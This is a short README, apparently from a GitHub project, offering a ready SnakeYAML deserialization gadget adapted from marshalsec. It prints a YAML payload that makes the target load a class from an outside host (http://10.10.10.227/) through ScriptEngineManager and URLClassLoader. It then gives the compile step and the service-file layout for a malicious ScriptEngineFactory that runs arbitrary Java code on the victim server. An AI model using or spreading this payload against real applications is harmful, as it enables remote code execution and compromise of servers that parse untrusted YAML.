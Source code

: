 # yaml-parser-payload
payload parser yaml javaweb


A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

-------yaml parser javaweb------------
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.10.227/"]
  ]]
]
```
Put the java code you want execute into [AwesomeScriptEngineFactory.java] and compile:

------bash console-----
```bash
javac AwesomeScriptEngineFactory.java
```
folder exploit / 
        META-INF/services/javax.script.ScriptEngineFactory inside file put h1dr0.AwesomeScriptEngineFactory/
        h1dr0/AwesomeScriptEngineFactory.class
Then place the 'AwesomeScriptEngineFactory.class' file in to the web server folder (e.g. h1dr0/AwesomeScriptEngineFactory.class)
